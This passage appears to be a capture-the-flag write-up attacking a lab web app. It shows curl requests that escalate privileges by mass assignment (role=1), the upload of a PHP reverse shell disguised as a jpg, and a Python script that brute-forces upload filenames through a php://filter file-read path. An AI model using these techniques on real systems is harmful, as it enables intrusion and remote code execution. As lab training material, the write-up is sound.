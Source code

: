 Seeing as `role` seems to be part of the response, I tried adding `role=1` to the request data.

```sh
$ curl 'http://10.10.11.135/profile_update.php' -X POST -H 'Cookie: PHPSESSID=fvr8cr1kvdpboo9homelhuglrh' --data-raw 'firstName=test&lastName=test&email=test&company=test&role=1'
{
    "id": "2",
    "0": "2",
    "username": "aaron",
    "1": "aaron",
    "password": "$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq",
    "2": "$2y$10$kbs9MM.M8G.aquRLu53QYO.9tZNFvALOIAb3LwLggUs58OH5mVUFq",
    "lastName": "test",
    "3": "test",
    "firstName": "test",
    "4": "test",
    "email": "test",
    "5": "test",
    "role": "1",
    "6": "1",
    "company": "test",
    "7": "test"
}
```

It looks like that worked and we now have `role=1`. We can now access `upload.php`.

We can create and upload a PHP reverse shell. Note that it doesn't need to be a valid `jpg` file if the POST parameter `submit` isn't there.

```sh
curl 'http://10.10.11.135/upload.php' -X POST -H 'Cookie: PHPSESSID=<SESS>' -F 'fileToUpload=@shell.jpg'
The file has been uploaded.
```

The problem now is that we don't have the name of the uploaded file. As seen in `upload.php`, the file is renamed to an MD5 hash generated with the original file name, the time of the upload, and a randomly generated `$file_hash`. Except that's not quite true. Note that in the declaration of `$file_name`, `'$file_hash'` is used instead of `$file_hash`, meaning it's using a hard-coded literal string instead of the randomly generated hash. Knowing that, we just have to brute-force for `time()`. I wrote the following script to fuzz for the file which should be run right after uploading a file.

```python
#!/usr/bin/python3

import time
import hashlib
import requests

ip = "10.10.11.135"
filename = "shell.jpg"

t = int(time.time())
print(t)
for i in range(t, 0, -1):
    f = "$file_hash" + f"{i}"
    hsh = hashlib.md5(bytes(f, "utf-8"))
    final_file = str(hsh.hexdigest()) + "_" + filename
    r = requests.get(
        f"http://{ip}/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/images/uploads/{final_file}"
    )
    if r.text:
        print(final_file)
```
